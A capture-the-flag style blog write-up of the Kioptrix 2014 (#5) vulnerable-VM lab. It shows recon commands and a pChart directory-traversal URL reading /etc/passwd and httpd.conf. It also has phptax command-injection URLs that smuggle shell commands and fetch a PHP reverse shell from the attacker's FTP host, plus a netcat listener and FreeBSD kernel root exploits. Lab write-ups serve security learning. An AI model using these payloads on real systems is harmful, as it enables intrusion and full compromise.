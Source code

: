 ```yaml
---
layout: post
title: "Kioptrix2014 (#5)"
date: 2016-07-07 14:27:35 -0500
comments: true
categories: [vulhub, kioptrix]
---
```



###Tools:

* netdiscover
* Nmap
* Nikto
* User Agent Switcher


 
###Vulnerability:

 * [phptax 0.8 - Remote Code Execution Vulnerability](https://www.exploit-db.com/exploits/21665/)
 * [pChart2.1.3 Directory Traversal Vulnerability](https://www.exploit-db.com/exploits/31173/)
 * [FreeBSD 9.0-9.1 mmap/ptrace - Privilege Esclation Exploit](https://www.exploit-db.com/exploits/26368/)
 * [FreeBSD 9.0 - Intel SYSRET Kernel Privilege Escalation Exploit](https://www.exploit-db.com/exploits/28718/)




<!--more-->
Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.79.0/24`

{% img  /images/blog/vulhub/kioptrix5/Selection_001.png   [title manually exploit [alt text]] %}

192.168.79.193 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.193 -p-`


{% img  /images/blog/vulhub/kioptrix5/Selection_002.png   [title manually exploit [alt text]] %}

port 80 and 8080 are opening

use nikto to scan

`nikto -h 192.168.79.193`

nothing cool.

Use firefox to check the page port 80


{% img  /images/blog/vulhub/kioptrix5/Selection_003.png   [title manually exploit [alt text]] %}

just simple It works

port 8080

{% img  /images/blog/vulhub/kioptrix5/Selection_004.png   [title manually exploit [alt text]] %}

got forbidden. Great :(

now go back to port 80 and check the source code

{% img  /images/blog/vulhub/kioptrix5/Selection_005.png   [title manually exploit [alt text]] %}

find pchart2.1.3. [pchart](http://www.pchart.net/). I googled pchart2.1.3, find exploits [pChart 2.1.3 - Multiple Vulnerabilities](https://www.exploit-db.com/exploits/31173/). I will use directory traversal.

`http://192.168.79.193/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd`

{% img  /images/blog/vulhub/kioptrix5/Selection_006.png   [title manually exploit [alt text]] %}

got passwd file, this is good, but not godd enough because I cannot shadow file.

Since Nmap determinate the target OS is FreeBSD, the Apache configure file is /usr/local/etc/apache2x/httpd.conf`. [Apache HTTP Server](https://www.freebsd.org/doc/handbook/network-apache.html)

`192.168.79.193/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf`


Here I find:

{% img  /images/blog/vulhub/kioptrix5/Selection_007.png   [title manually exploit [alt text]] %}

The port 8080 only allow Mozilla/4.0 user-agent.  I use User Agent Switcher (firefox plugin) to change my user-agent to `Mozilla/4.0`, then visit 192.168.79.193:8080

{% img  /images/blog/vulhub/kioptrix5/Selection_008.png   [title manually exploit [alt text]] %}

now search phptax

`searchsploit phptax`


{% img  /images/blog/vulhub/kioptrix5/Selection_009.png   [title manually exploit [alt text]] %}

test upload php shell first:

`http://192.168.79.193:8080/phptax/index.php?pfilez=1040pg1.tob; uname > test.txt&pdf=make`

`http://192.168.79.193:8080/phptax/test.txt`

{% img  /images/blog/vulhub/kioptrix5/Selection_010.png   [title manually exploit [alt text]] %}


Here I tired to wget the php shell from my http server didn't work. I also tried to write php shell to a php file driectly, also failed. Now I use ftp to upload my shell:

check if ftp is availabe:

`http://192.168.79.193:8080/phptax/index.php?pfilez=1040pg1.tob;which ftp >test1.txt; &pdf=make`

{% img  /images/blog/vulhub/kioptrix5/Selection_011.png   [title manually exploit [alt text]] %}


php reverse shell:

`/usr/share/webshells/php/php-reverse-shell.php`

change the IP address:

{% img  /images/blog/vulhub/kioptrix5/Selection_012.png   [title manually exploit [alt text]] %}

upload the shell using ftp:

`http://192.168.79.193:8080/phptax/index.php?pfilez=1040pg1.tob;ftp -4 -d -v ftp://bobftpusername:bobftppassword@192.168.79.173//reverse.php; &pdf=make`

set up nc listener

get the shell:

{% img  /images/blog/vulhub/kioptrix5/Selection_013.png   [title manually exploit [alt text]] %}

check the kernel version

{% img  /images/blog/vulhub/kioptrix5/Selection_014.png   [title manually exploit [alt text]] %}


Its FreeBSD 9.0-RELEASE, `searchsploit freebsd 9.0`

{% img  /images/blog/vulhub/kioptrix5/Selection_015.png   [title manually exploit [alt text]] %}

copy these two exploits to /ftphome/

download them to the target:

`ftp -4 -d -v ftp://bobftpusername:bobftppassward@192.168.79.173//26368.c`
`ftp -4 -d -v ftp://bobftpusername:bobftppassward@192.168.79.173//28718.c`


get the F***ing root:

{% img  /images/blog/vulhub/kioptrix5/Selection_017.png   [title manually exploit [alt text]] %}














